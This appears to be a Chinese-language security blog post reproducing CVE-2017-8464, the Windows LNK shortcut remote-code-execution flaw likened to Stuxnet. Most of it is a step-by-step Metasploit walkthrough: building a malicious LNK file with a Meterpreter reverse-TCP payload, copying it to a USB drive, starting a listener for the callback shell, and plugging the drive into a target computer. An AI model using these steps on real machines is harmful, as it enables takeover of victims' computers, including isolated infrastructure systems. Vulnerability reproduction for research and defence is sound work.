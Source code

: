 ```yaml
---
title: CVE-2017-8464(震网三代)漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 网络安全
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26 22:09:00
---
```


## 漏洞介绍

该漏洞的原理同2010年美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的穿透核设施隔离网络的漏洞（CVE-2010-2568）非常类似，「它可以很容易的被黑客利用来攻击基础设施、存放关键资料的核心隔离系统等」。
「当存在漏洞的电脑被插上保存有漏洞文件的U盘时，不需要额外操作，漏洞攻击程序就可以执行并完全控制用户的电脑系统」。

## 使用工具

metasploit framework.

## 步骤一: 制作U盘木马
```
 use exploit/windows/fileformat/cve_2017_8464_lnk_rce
 set PAYLOAD windows/x64/meterpreter/reverse_tcp
 set LHOST [ip victim connects back to]
 exploit
```

## 步骤二: 拷贝木马到U盘
```
cp /root/.msf4/local/* [USB drive path]
```

## 步骤三: 开启监听,等待木马反弹
```
 use exploit/multi/handler
 set PAYLOAD windows/x64/meterpreter/reverse_tcp
 set LHOST [ip victim connects back to]
 exploit
```

## 步骤四: 利用

将U盘插入目标电脑,如果目标开启了外接设备自动播放,木马直接可运行.



> 参考: https://github.com/rapid7/metasploit-framework/pull/8767

<!-- https://blog.csdn.net/darkhq/article/details/79304558 -->
